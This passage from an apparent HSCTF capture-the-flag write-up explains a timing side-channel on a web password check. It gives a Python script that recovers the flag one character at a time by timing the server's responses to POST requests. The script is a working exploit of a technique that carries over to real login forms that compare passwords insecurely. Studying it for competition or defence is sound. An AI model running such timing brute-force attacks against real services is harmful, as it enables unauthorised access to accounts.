 (If the beginning of our password was wrong, we got instant error response)

Yay I think you understood what we need to do now.

### Challenge Resolution
So with this test, we understood that if we get a correct letter, the response time from the server was longer and the flag was the password. After several tests, to know how much time each good letter added to the response time approximately we ended up with the following script.

```python
import requests, string, time

def main():
	flag = 'hsctf{'

	printable = 'abcdefghijklmnopqrstuvwxyz0123456789_}ABCDEFGHIJKLMNOPQRSTUVWXYZ!?@"#$%&\'()*+,-./:;<=>[\\]^`{|}~'

	initial_time = 0.0
	bTime = time.perf_counter()

	url = 'https://networked-password.web.chal.hsctf.com/'
	r = requests.post(url, data = {'password':flag})

	aTime = time.perf_counter()

	initial_time = aTime - bTime

	print(initial_time, ' sec')

	while 1 :
		for i in range(len(printable)):
			fake = flag
			fake += printable[i]

			before_time = time.perf_counter()

			r = requests.post(url, data = {'password':fake})

			after_time = time.perf_counter()
			exec_time = after_time - before_time

			print('exec_time : ', exec_time)
			print('initial_time : ', initial_time)

			next = fake + printable[i]
			next_bTime = time.perf_counter()
			r = requests.post(url, data = {'password':next})
			next_aTime = time.perf_counter()
			nextTime = next_aTime - next_bTime

			if (exec_time > initial_time + 0.3) and not(nextTime < exec_time - 0.2):
				print('hit')
				flag = fake
				print(flag)
				initial_time = exec_time
				break

		if '}' in flag:
			break


if __name__ == "__main__":
	main()
```